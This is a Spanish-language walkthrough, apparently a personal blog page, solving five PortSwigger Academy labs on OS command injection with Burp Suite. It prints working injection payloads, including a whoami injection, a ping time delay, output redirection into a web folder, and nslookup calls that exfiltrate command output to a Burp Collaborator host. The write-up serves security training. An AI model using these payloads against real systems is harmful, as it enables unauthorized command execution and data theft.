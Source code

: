 ```yaml
---
layout: default
title: "OS command injection - PortSwigger"
permalink: /command-injection-ps/
---
```


# OS command injection

Todos los laboratorios posteriormente expuestos los puedes encontrar para resolverlos en la academia de PortSwigger.

[https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection)

## Indice

  * [1. Lab: OS command injection, simple case](#1-lab-os-command-injection-simple-case)
  * [2. Lab: Blind OS command injection with time delays](#2-lab-blind-os-command-injection-with-time-delays)
  * [3. Lab: Blind OS command injection with output redirection](#3-lab-blind-os-command-injection-with-output-redirection)
  * [4. Lab: Blind OS command injection with out-of-band interaction](#4-lab-blind-os-command-injection-with-out-of-band-interaction)
  * [5. Lab: Blind OS command injection with out-of-band data exfiltration](#5-lab-blind-os-command-injection-with-out-of-band-data-exfiltration)
  * [CONCLUSION](#conclusion)

## 1. Lab: OS command injection, simple case

```text
Esta práctica de laboratorio contiene una vulnerabilidad de inyección de comandos del sistema operativo en el verificador de stock de productos.

La aplicación ejecuta un comando de shell que contiene los ID de tienda y producto proporcionados por el usuario, y devuelve la salida sin procesar del comando en su respuesta.

Para resolver la práctica de laboratorio, ejecute el whoamicomando para determinar el nombre del usuario actual.
```

Como nos dice la informacion, buscaremos un articulo cualquiera, y le damos clic en el boton **Check stock** y lo interceptamos con el burpsuite y lo enviamos al **Repeater**.

![](img1.png)

Como podemos ver, todo ocurre de manera normal, ahora intentaremos ejecutar comandos agregandole **& whoami**.

![U](img2.png)

Si lo enviamos así no va a obtener nada, ya que el **&** lo esta considerando como el cierre del parametro y el inicio de otro asi que lo que haremos será seleccion todo el parametro **1&whoami** y encodearlo con las teclas **Ctrl + U**.

![](img3.png)

Como podemos ver, si ejecutó el comando **whoami**, y si vamos a el sitio web, nos damos cuenta que si figura como resuelto.

![](img4.png)

## 2. Lab: Blind OS command injection with time delays

```bash
Esta práctica de laboratorio contiene una vulnerabilidad de inyección ciega de comandos del SO en la función de retroalimentación.

La aplicación ejecuta un comando de shell que contiene los detalles proporcionados por el usuario. La salida del comando no se devuelve en la respuesta.

Para resolver el laboratorio, aproveche la vulnerabilidad de inyección ciega de comandos del sistema operativo para provocar un retraso de 10 segundos.
```

Lo que haremos será enviar un feedback al webmaster mediante la opcion que aparece en el sitio web.

![](img5.png)

E interceptamos el paquete con burpsuite y lo enviamos al reapiter.

![](img6.png)

Como podemos ver, no obtener ninguna respuesta al realizar el comando, ahora intentaremos generar un retardo en la solicitud agregandole un **ping -c 10 127.0.0.1**.

![](img7.png)

Lo cual logró generar el retrazo, ya que generamos el comando ping dentro de los caracteres **''$(''** y **'')'** que sirven para ejecutar strings dentro de strings.

![](img8.png)

## 3. Lab: Blind OS command injection with output redirection  

```bash
Esta práctica de laboratorio contiene una vulnerabilidad de inyección ciega de comandos del SO en la función de retroalimentación.

La aplicación ejecuta un comando de shell que contiene los detalles proporcionados por el usuario. La salida del comando no se devuelve en la respuesta. Sin embargo, puede utilizar la redirección de salida para capturar la salida del comando. Hay una carpeta en la que se puede escribir en:

/var/www/images/

La aplicación sirve las imágenes para el catálogo de productos desde esta ubicación. Puede redirigir la salida del comando inyectado a un archivo en esta carpeta y luego usar la URL de carga de la imagen para recuperar el contenido del archivo.

Para resolver el laboratorio, ejecute el whoamicomando y recupere el resultado.
```

Lo que haremos será enviar un feedback al webmaster mediante la opcion que aparece en el sitio web.

![](img9.png)

E interceptamos el paquete con burpsuite y lo enviamos al reapiter.

![](img10.png)

Como en el ejemplo anterior, no devuelve ningun resultado lo que haremos será ejecutar el comando **whoami** y lo enviaremos a la ruta **/var/www/images/**.

```bash
$(whoami > /var/www/images/whoami.txt) #Con url encode (seleccionar texto y Ctrl + u)
```

Lo cual de deberia mostrar en la url:

```bash
https://acfb1fb31f59b03d80493c9e006000ac.web-security-academy.net/images/whoami.txt
```

Ahora realizaremos esto en el repeater en el parametro **message** y lo enviamos.

![](img11.png)

Y ahora accedemos por navegador a la url para revisar que el comando de ejecutó correctamente:

![](img12.png)

Ahora si vamos a la pagina principal del laboratorio vemos que se realizó correctamente.

![](img13.png)

## 4. Lab: Blind OS command injection with out-of-band interaction

```bash
Esta práctica de laboratorio contiene una vulnerabilidad de inyección ciega de comandos del sistema operativo en la función de retroalimentación.

La aplicación ejecuta un comando de shell que contiene los detalles proporcionados por el usuario. El comando se ejecuta de forma asincrónica y no tiene ningún efecto en la respuesta de la aplicación. No es posible redirigir la salida a una ubicación a la que pueda acceder. Sin embargo, puede desencadenar interacciones fuera de banda con un dominio externo.

Para resolver el laboratorio, aproveche la vulnerabilidad de inyección ciega de comandos del sistema operativo para emitir una búsqueda de DNS en Burp Collaborator.
```

Entonces, necesitamo buscar la seccion de **Burp Collaborator**, para ello nos ubicamos en la pestaña **Burp** y en la opcion **Burp Collaborator Client**.  y le damos clic en **Copy to clipboard**, con lo cual obtenemos el siguiente:

```bash
z66dbyatv2hji73k2colx34jua00op.burpcollaborator.net
```

Ahora, vamos a interceptar el paquete del feedback y lo enviamos al repeater editando el parametro **message** por lo siguiente.

```bash
$(nslookup z66dbyatv2hji73k2colx34jua00op.burpcollaborator.net)
```

Como se ve en la siguiente imagen:

![](img14.png)

Podemos ver en nuestra ventana de **Burp Collaborator Client**, podemos ver que si se realizaron las consultas dns.

![](img15.png)

Ahora verificamos en el home del laboratorio si lo completamos.

![](img16.png)

## 5. Lab: Blind OS command injection with out-of-band data exfiltration

```bash
Esta práctica de laboratorio contiene una vulnerabilidad de inyección ciega de comandos del SO en la función de retroalimentación.

La aplicación ejecuta un comando de shell que contiene los detalles proporcionados por el usuario. El comando se ejecuta de forma asincrónica y no tiene ningún efecto en la respuesta de la aplicación. No es posible redirigir la salida a una ubicación a la que pueda acceder. Sin embargo, puede desencadenar interacciones fuera de banda con un dominio externo.

Para resolver el laboratorio, ejecute el whoamicomando y extraiga el resultado a través de una consulta de DNS a Burp Collaborator. Deberá ingresar el nombre del usuario actual para completar el laboratorio.
```

Como en el laboratorio entramos al **Burp Collaborator Client**, y damos clic en **Copy to clipboard**, con lo cual obtenemos el siguiente:

```bash
8v4zmihu5jygfrhzktqssad7gympae.burpcollaborator.net
```

Ahora interceptamos el paquete del feedback como en el ejemplo anterior y lo enviamos al repeater y para este caso, debemos obtener la salida de un comando así que anidaremos dos comandos usando esta vez el caracter **`** (tilde invertida) y el payload será de la siguiente manera.

```bash
$(nslookup `whoami`.8v4zmihu5jygfrhzktqssad7gympae.burpcollaborator.net)
```

Lo cual en el intruder quedaria de la siguiente manera y lo enviamos.

![](img17.png)

Podemos ver en nuestra ventana de **Burp Collaborator Client**, podemos ver que si se realizaron las consultas dns.

![](img18.png)

Y como podemos ver la consulta dns se hizo a **peter-xR6lKE.8v4zmihu5jygfrhzktqssad7gympae.burpcollaborator.net**. Entonces la respuesta del comando whoami sería.

```bash
peter-xR6lKE
```

Ahora verificamos en el home del laboratorio si lo completamos y nos pide que ingresemos el valor que obtuvimos.

![](img19.png)

Y luego de ello podemos ver que tenemos el laboratorio resuelto al fin :D

![](img20.png)

## CONCLUSION

Estos ejercicios son un poco mas sencillos pero nos sirve para aprender las diferentes formas en la que se puede presentar un Command Injection, que aunque parezca poco todavia hay sitios webs que los usan, y obviamente la mayoria de estos son de modo a ciegas.



